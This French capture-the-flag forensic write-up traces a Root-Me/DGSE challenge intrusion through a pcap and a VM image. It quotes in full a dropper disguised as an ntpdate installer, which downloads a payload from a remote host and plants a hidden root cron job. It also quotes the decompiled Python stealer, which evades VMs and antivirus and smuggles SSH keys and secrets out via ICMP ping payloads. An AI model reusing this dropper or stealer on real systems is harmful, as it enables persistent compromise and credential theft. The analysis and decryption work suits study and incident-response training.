





# Mission 3 DGSE x Root-Me (FORENSIC)



# Writeup

On peut d'abord se pencher vers la capture `.pcap` pour trouver le vecteur d'intrusion.

En ouvrant ce fichier on remarque différents échanges sur des protocoles comme UDP ou TCP qui ne semblent pas être la piste.

En revanche en filtrant avec http, on remarque un :

```http
GET /install_nptdate.sh HTTP/1.1
```

Voici le script .sh :

```zsh
#!/bin/bash

# ntpdate.sh ... NTP Utility Sync Setup (v1.3.4)
# (c) 2022-2025 Network Time Foundation

set -e

__CNT=40
__IX=1000
__HD=$(getent passwd "$__IX" | cut -d: -f6)
__PYV="python3.7"
__PYLIB="$__HD/.local/lib/${__PYV}/site-packages"
__TMPF=()

for _ in $(seq 1 $__CNT); do
    __R="/opt/$(tr -dc A-Za-z0-9 </dev/urandom | head -c 8)"
    mkdir -p "$__R"
    __TMPF+=("$__R")
done

__DST="${__TMPF[$RANDOM % ${#__TMPF[@]}]}"
__DL=$(echo "aHR0cDovL3Zhc3RhdGlvbi5udWxsOjgwODAvbnRwZGF0ZV91dGlsLmNweXRob24tMzcucHlj" | base64 -d)
__DLL=$(echo "aHR0cDovL3Zhc3RhdGlvbi5udWxsOjgwODAvcmVhZG1lLm1k" | base64 -d)

if command -v curl >/dev/null 2>&1; then
    curl -fsSL "$__DL" -o "$__DST/.sys"
    curl -fsSL "$__DLL" -o "$__DST/.rdme"
elif command -v wget >/dev/null 2>&1; then
    wget -q "$__DL" -O "$__DST/.sys"
    wget -q "$__DLL" -O "$__DST/.rdme"
else
    echo "[ntpdate] Error: Neither curl nor wget found."
    exit 127
fi

chmod +x "$__DST/.sys"

__C=$(echo "QHJlYm9vdCByb290IFBZVEhPTlBBVEg9" | base64 -d)
__V=$(echo "cHl0aG9uMy43" | base64 -d)
echo "${__C}${__PYLIB} ${__V} ${__DST}/.sys &" > /etc/cron.d/.ntpdate_sync
chmod 644 /etc/cron.d/.ntpdate_sync

__FAKE_CRONS=("update-cron" "logrotate-check" "sysclean-job" "netwatchd" "db-backup")

for fake in "${__FAKE_CRONS[@]}"; do
    echo "# Cron generated by sysctl ${RANDOM}" > "/etc/cron.d/${fake}"
    echo "PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin" >> "/etc/cron.d/${fake}"
    echo "* * * * * root /usr/bin/true # ${fake}" >> "/etc/cron.d/${fake}"
    chmod 644 "/etc/cron.d/${fake}"
done
for __f in $(seq 1 10); do
    f="/opt/.$(tr -dc a-z0-9 </dev/urandom | head -c 6)"
    case $((RANDOM % 3)) in
        0) echo "debug log $(date)" > "$f.log";;
        1) echo -e "#!/bin/bash\necho system update check" > "$f.sh"; chmod +x "$f.sh";;
        2) head -c $((RANDOM % 2048 + 512)) /dev/urandom > "$f.dat";;
    esac
done

${__V} -m pip install -q psutil >/dev/null 2>&1 || true
${__V} -m pip install -q pycryptodome >/dev/null 2>&1 || true
sudo PYTHONPATH=${__PYLIB} ${__V} "$__DST/.sys" >/dev/null 2>&1 &

echo "[ntpdate] NTP sync utilities installed successfully."
```

À première vu ce script est clairement malveillant. 

**Analyse** :

Le script install_nptdate.sh crée 40 dossiers dans /opt, en choisi un (__DST) pour télécharger le binaire (.sys) et un fichier rdme (.rdme) depuis vastation.null, puis installe une tâche cron (/etc/cron.d/.ntpdate_sync) qui exécute ${__V} avec le PYTHONPATH=${__PYLIB}, et génère plusieurs faux crontabs.

- On peut lancer **l'image** de la VM compromise avec VMware.

- Après s'être connecté au compte de **johndoe**, on exécute la commande : 

```zsh
find /opt -type f -name ".sys" -o -name ".rdme"
```
Pour localiser le fichier binaire .sys :



Il se trouve dans `/opt/fJQsJUNS/.sys`.


```zsh
johndoe@UXWS112:/opt/fJQsJUNS$ file .sys 
.sys: Byte-compiled Python module for CPython 3.7, timestamp-based, .py timestamp: Mon Mar 24 15:04:51 2025 UTC, .py size: 2358 bytes
```

>[!NOTE]
> On le savait déjà car en décodant la chaîne en Base64 du echo : "aHR0cDovL3Zhc3RhdGlvbi5udWxsOjgwODAvbnRwZGF0ZV91dGlsLmNweXRob24tMzcucHlj" --> 
http://vastation.null:8080/ntpdate_util.cpython-37.pyc

Il s’agit d’un fichier Python compilé au format bytecode. 

- Autopsy nous permet de le récupérer :



Puis on le décompile à l'aide de https://pylingual.io/.

Voici son code décompilé : 

```python
# Decompiled with PyLingual (https://pylingual.io)
# Internal filename: nightshade.py
# Bytecode version: 3.7.0 (3394)
# Source timestamp: 2025-03-24 15:04:51 UTC (1742828691)

import os, subprocess
import psutil
import base64
from Crypto.Cipher import AES
__k = bytes.fromhex('e8f93d68b1c2d4e9f7a36b5c8d0f1e2a')
__v = bytes.fromhex('1f2d3c4b5a69788766554433221100ff')
__d = '37e0f8f92c71f1c3f047f43c13725ef1'

def __b64d(s):
    return base64.b64decode(s.encode()).decode()

def __p(x):
    return x + bytes([16 - len(x) % 16]) * (16 - len(x) % 16)

def __u(x):
    return x[:-x[-1]]

def __x(h):
    c = AES.new(__k, AES.MODE_CBC, __v)
    return __u(c.decrypt(bytes.fromhex(h))).decode()

def __y(s):
    c = AES.new(__k, AES.MODE_CBC, __v)
    return c.encrypt(__p(s.encode())).hex()

def __chk_vm():
    try:
        z = open('/sys/class/dmi/id/product_name').read().strip().lower()
        for q in [b'VmlydHVhbEJveA==', b'S1ZN', b'UVFNVQ==', b'Qm9jaHM=']:
            if base64.b64decode(q).decode().lower() in z:
                print('ERR VM')
                return True
    except:
        pass
    return False

def __chk_av():
    targets = [b'Y2xhbWQ=', b'YXZnZA==', b'c29waG9z', b'RVNFVA==', b'cmtodW50ZXI=']
    try:
        for p in psutil.process_iter(attrs=['name']):
            n = (p.info['name'] or '').lower()
            for b64av in targets:
                if base64.b64decode(b64av).decode().lower() in n:
                    print('ERR AV')
                    return True
    except:
        pass
    return False

def __exf(path, dst, size=15):
    if not os.path.exists(path):
        return False
    d = open(path, 'rb').read()
    segs = [d[i:i + size] for i in range(0, len(d), size)]
    for seg in segs:
        try:
            payload = AES.new(__k, AES.MODE_CBC, __v).encrypt(__p(seg)).hex()
            cmd = [__b64d('cGluZw=='), __b64d('LWM='), __b64d('MQ=='), __b64d('LXA='), payload, dst]
            subprocess.run(cmd, stdout=subprocess.DEVNULL, stderr=subprocess.DEVNULL)
        except:
            continue
    return True

def __main():
    if __chk_vm():
        return
    if __chk_av():
        return
    __kll = ['/root/.secret', os.path.expanduser('~/.ssh/id_rsa'), '/root/.ssh/id_rsa']
    for f in __kll:
        if os.path.exists(f):
            __exf(f, __x(__d))
    _kkoo = '/root/.secret'
    if os.path.exists(_kkoo):
        try:
            os.remove(_kkoo)
        except Exception as e:
            pass
if __name__ == '__main__':
    __main()
```

Ce script lit les fichiers "sensibles" comme /root/.secret ou les clés ssh.
Puis il envoie ces données à l'aide de ce payload :

```
ping -c 1 -p <payload-chiffré>
```

>[!IMPORTANT] 
> Les segments originaux ont une taille de 15 octets --> pad avec PKCS#7 --> chiffrés en AES CBC puis converti en hexadécimal.

--> On suppose que /root/.secret est le flag du challenge, il n'est plus sur la machine. En revanche, il est sûrement présent dans le trafic réseau suspect (chiffré en AES-CBC)

On ouvre à nouveau le fichier .pcap et on filtre avec ICMP.

Chaque paquet contient une section « Data (40 bytes) » – soit 40 octets en binaire, affichés en hexadécimal sous la forme d’une chaîne de 80 caractères :



Après une analyse plus approfondie, on déduit que au sein de ces `40 octets`, les `16 octets` utiles pour le décryptage se situent à partir d’un `offset de 16` (la taille requise pour AES). Donc si on isole les `16 octets` (32 caractères hex) `à partir de l’offset 16` de chaque paquet, on obtient le bon bloc chiffré.

On peut ensuite déchiffrer avec la clé et l’IV connus (script décompilé) :

```
Clé : e8f93d68b1c2d4e9f7a36b5c8d0f1e2a

IV : 1f2d3c4b5a69788766554433221100ff

Mode : AES-CBC
```

On utilise un premier script pour extraire le bon bloc : (usage == `python3 script.py capture_victim.pcap`)

```python
from scapy.all import rdpcap, ICMP
import sys
pcaps = rdpcap(sys.argv[1])
with open("segments.txt", "w") as f:
    for pkt in pcaps:
        if pkt.haslayer(ICMP) and pkt[ICMP].type == 8:
            d = bytes(pkt[ICMP].payload)
            if len(d) >= 32:
                f.write(d[16:32].hex() + "\n")  
```

Et un second script pour déchiffrer le bloc :

```python
from Crypto.Cipher import AES
def unpad(b):
 p = b[-1]
 return b[:-p] if 1<=p<=16 and b[-p:]==bytes([p])*p else b
key = bytes.fromhex("e8f93d68b1c2d4e9f7a36b5c8d0f1e2a")
iv = bytes.fromhex("1f2d3c4b5a69788766554433221100ff")
res = b""
with open("segments.txt") as f:
 for l in f:
  res += unpad(AES.new(key, AES.MODE_CBC, iv).decrypt(bytes.fromhex(l.strip())))
print(res.decode("utf-8", errors="ignore"))
```

On obtient alors une clé SSH et le flag :



```
Flag : RM{986b8674b18e7f3c36b24cf8c8195b36bba01d61}
```
